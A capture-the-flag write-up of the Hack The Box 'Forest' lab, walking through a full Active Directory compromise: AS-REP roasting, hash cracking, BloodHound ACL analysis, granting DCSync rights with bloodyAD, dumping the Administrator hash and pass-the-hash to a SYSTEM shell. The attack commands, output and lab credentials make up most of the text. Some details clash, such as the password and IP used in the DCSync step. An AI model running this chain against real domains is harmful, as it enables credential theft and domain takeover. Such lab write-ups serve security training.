



<p align="center">
  
</p>

# Intro

Forest was my first AD machine after completed the CPTS path of HTB.
It's a well known machine for getting started with Active Directory environments. It is an easy-rated machine. The pentest is performed in a black box context as we have no credentials, only the machine's IP address.
I started by a ASREP-Roasting and found that `svc_alfresco` do not requirer Kerberos pre-auth and succesfuly cracked offline his TGT.
After that I used his account to harvest all the domain ACLs and discovered that `svc_alfresco` is a part of the `Account Operators` which has the `GenericAll` over the `Exchange Windows Permissions`.
This group has the `DCSync` ACL over the domain. So I performed a DCSync attack to recover the `Administrator` NT hash and fully compromised the domain

# Walkthough

## Enumeration

I began to enumerate services on the host with the `nmap` tool.

```bash
 # nmap -sV -sC -p- -T5 10.129.62.73

PORT      STATE SERVICE      VERSION
25/tcp    open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO htb.local: failed to receive data: connection closed
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-15 12:44:26Z)
110/tcp   open  pop3-proxy   Avast! anti-virus pop3 proxy (cannot connect to 10.129.62.73)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
143/tcp   open  imap-proxy   Avast! anti-virus IMAP proxy (cannot connect to 10.129.62.73)
|_imap-capabilities: CAPABILITY
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
465/tcp   open  tcpwrapped
|_smtp-commands: Couldn't establish connection on port 465
587/tcp   open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO htb.local: failed to receive data: connection closed
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
993/tcp   open  tcpwrapped
995/tcp   open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
49996/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-10-15T02:56:25-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2025-10-15T09:56:23
|_  start_date: 2025-10-15T08:53:18
```

Kerberos and LDAP services are exposed on the host, which leads to conclude that this is a Domain Controller within an Active Directory environment.
The domain name is `htb.local` and The DC FQDN is `FOREST.htb.local`.

I added this information to /etc/hosts.

```bash
# echo '10.129.62.73 htb.local FOREST.htb.local FOREST' >> /etc/hosts 
```

## Kerberoasting `svc-alfresco`

It seems like nmap was able to retrieve several information, maybe smb is accessible from an anonymous connexion.
Let's confirm that with NetExect.

```bash
# nxc smb FOREST.htb.local -u '' -p ''
SMB         10.129.62.73    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.62.73    445    FOREST           [+] htb.local\:
```

It's confirmed, it is the same for ldap?

```bash
nxc ldap FOREST.htb.local -u '' -p ''
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
```

Yes! So whith that, we can perfrom an AS-REP Roast attack to request a user TGT without his password.

```bash
# nxc ldap 10.129.62.73 -u '' -p '' --asreproast asreproast.txt
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
LDAP        10.129.62.73    389    FOREST           [*] Total of records returned 1
LDAP        10.129.62.73    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452
```

Here is the hash! Notice that no userlist is necessary because the null session is allowed and the tool enumerate first the usernames and make the AS-REQ automaticaly for each users.

## Cracking `svc-alfresco` hash

I tried to crack this AS-REP hash with `Hashcat` to revael the `svc-alfresco` password.

```bash
# hashcat -m 18200 asreproast.txt /opt/lists/rockyou.txt       

$krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
```

The hash is cracked! I have a first domain credential:
`svc-alfreso:s3rvice`

## Enumerating ACLs with Bloodhound

I used `bloodhound.py` to dumps all ACLs of 

```bash
# # bloodhound.py --zip -c All -u 'svc-alfresco' -p 's3rvice' -dc FOREST.htb.local -d htb.local -ns 10.129.62.73
```

Let's check with `Bloodhound` the attacks path I have from `svc-alfresco`.



This account, through several groups, is a part of the powerfull `Account Operators` group. 
This group have permissions to create, modify, and delete most user accounts, groups, and computers, with the exception of administrative accounts and groups.
Moreover I see that `Account Operators` has the `GenericAll` ACL over the `Exchange Windows Permissions` group.



This group has the `WriteDacl` over the `htb.local` domain!

Here the path is clear, I'll create a new user and add it to `Exchange Windows Permissions` group. After that, I'll add the DCSync ACL to `svc-alfresco` over `htb.local` domain.
Finally, I'll perform a DCSync attack to recover the `Administrator` hash to compromise the domain.

## Creating a new user

I use the `Bloody-AD` tool for all steps.

```bash
# bloodyAD --host "FOREST.htb.local" -d "htb.local" -u "svc-alfresco" -p "s3rvice" add user m3ringue 'Bagu3tte!'
[+] m3ringue created
```

## Adding `m3ringue` to `Exchange Windows Permissions` group

```bash
# bloodyAD --host "FOREST.htb.local" -d "htb.local" -u "svc-alfresco" -p "s3rvice" add groupMember "exchange windows permissions" m3ringue
[+] m3ringue added to exchange windows permissions
```

## Adding DCSync ACL to `m3ringue`

```bash
# bloodyAD --host "FOREST.htb.local" -d "htb.local" -u "m3ringue" -p 'Bagu3tte!' add dcsync m3ringue
[+] m3ringue is now able to DCSync
```

## Performing the DCSync attack

```bash
# secretsdump -just-dc-user administrator htb.local/m3ringue:B4guette@10.10.10.161
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
The administrator password NT hash is dumped!
`Administrator:32693b11e6aa90eb43d32c72a07ceea6`

## Connecting to the DC

I use the psexec.py tool to connect to the DC.

```bash
# psexec.py -hashes :"32693b11e6aa90eb43d32c72a07ceea6" "htb.local"/"administrator"@"FOREST.htb.local"
Impacket v0.13.0.dev0+20250717.182627.84ebce48 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on FOREST.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file IMnGApIn.exe
[*] Opening SVCManager on FOREST.htb.local.....
[*] Creating service MnJq on FOREST.htb.local.....
[*] Starting service MnJq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

I have now a shell as `nt authority\system`!
